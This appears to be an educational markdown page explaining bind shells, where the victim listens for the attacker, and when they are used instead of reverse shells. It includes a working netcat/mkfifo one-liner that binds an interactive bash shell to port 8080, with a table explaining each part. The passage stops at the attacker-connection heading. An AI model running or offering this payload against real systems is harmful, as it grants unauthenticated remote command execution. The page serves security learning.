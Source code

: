 A **Bind Shell** is a technique where the **victim machine itself opens a port and waits (listens) for an attacker’s connection**.  
👉 When the attacker connects to that port, a shell session is opened, and the attacker can run commands remotely.  



# ⚙️ When Bind Shell is Useful?
- If the victim system **does not allow outgoing connections**, then reverse shell won’t work.  
- In that case, attacker uses **Bind Shell**, where the victim listens for connections.  

⚠️ Less popular than Reverse Shell because:  
- Victim system must keep the port open.  
- Easier for firewalls/security tools to detect.  



# 🛠️ How Bind Shell Works

1. **Victim (target system)** runs a bind shell payload.  
2. The payload makes the victim’s machine **listen on a port**.  
3. **Attacker connects** to that port using Netcat.  
4. Attacker now gets remote shell access.  



# 💣 Bind Shell Payload (Victim Side)

Example payload:
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
### Step-by-Step Breakdown
| Part of Command                          | Meaning                                                                 |
|------------------------------------------|-------------------------------------------------------------------------|
| `rm -f /tmp/f`                           | Remove any old pipe file in `/tmp/`.                                    |
| `mkfifo /tmp/f`                          | Create a new **named pipe** for communication.                          |
| `cat /tmp/f`                             | Read input data from the pipe.                                          |
| `| bash -i 2>&1`                         | Start an interactive bash shell, redirecting errors to output.          |
| `| nc -l 0.0.0.0 8080`                   | Start Netcat in **listen mode** on port `8080`.                         |
| `>/tmp/f`                                | Send output of commands back into the pipe (2-way communication).       |

👉 After running this, the target system **waits for connections** on port `8080`.  

---

# 📡 Attacker Connects to Bind Shell
